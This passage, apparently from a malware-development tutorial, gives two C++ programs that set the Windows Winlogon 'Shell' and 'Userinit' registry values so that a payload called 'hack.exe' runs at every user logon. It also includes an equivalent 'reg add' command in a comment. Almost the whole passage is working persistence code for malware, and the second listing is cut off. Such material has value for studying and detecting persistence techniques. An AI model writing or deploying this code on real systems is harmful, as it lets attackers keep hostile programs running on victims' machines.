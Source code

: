 ```cpp
/*
pers.cpp
windows persistence via winlogon keys
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2022/06/12/malware-pers-7.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // shell
  // const char* sh = "explorer.exe,Z:\\2022-06-12-malware-pers-7\\hack.exe";
  const char* sh = "explorer.exe,hack.exe";

  // startup
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)"SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon", 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry key

    // reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v "Shell" /t REG_SZ /d "explorer.exe,..." /f
    RegSetValueEx(hkey, (LPCSTR)"Shell", 0, REG_SZ, (unsigned char*)sh, strlen(sh));
    RegCloseKey(hkey);
  }

  return 0;
}
```

Also, similar for `Userinit`. If this registry key include an malicious app will result in the execution of both `userinit.exe` and `hack.exe` during Windows logon:

```cpp
/*
pers.cpp
windows persistence via winlogon keys
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2022/06/12/malware-pers-7.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // userinit
  const char* ui = "C:\\Windows\\System32\\userinit.exe,Z:\\2022-06-12-malware-pers-7\\hack.exe";

  // startup
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)"SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon", 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry key

    // reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v "Shell" /t REG_SZ /d "explorer.exe,..." /f
    RegSetValueEx(hkey, (LPCSTR)"Userinit", 0, REG_SZ, (unsigned char*)ui, strlen(ui));
    RegCloseKey(hkey);
  }

  return 0;
```